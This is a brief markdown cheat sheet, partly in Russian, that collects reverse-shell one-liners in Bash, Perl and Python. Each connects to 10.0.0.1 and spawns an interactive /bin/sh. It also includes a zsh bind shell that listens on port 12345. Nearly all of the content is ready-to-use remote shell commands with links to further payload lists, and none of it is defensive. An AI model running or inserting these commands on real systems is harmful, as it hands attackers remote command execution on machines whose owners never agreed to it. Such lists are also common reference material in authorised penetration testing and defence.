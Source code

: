 # Reverse Shell

[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Bash

`$ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` \
Другие примеры: [https://www.gnucitizen.org/blog/reverse-shell-with-bash/](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)

### Perl

`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` Другие примеры: [http://www.plenz.com/reverseshell](http://www.plenz.com/reverseshell)

### Python 2.7 / Linux

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

## Bind Shell через zsh

```
$ zsh -c 'zmodload -i zsh/net/tcp; autoload -U tcp_proxy; tcp_proxy 12345 /bin/sh -il &!'

$ nc localhost 12345
```
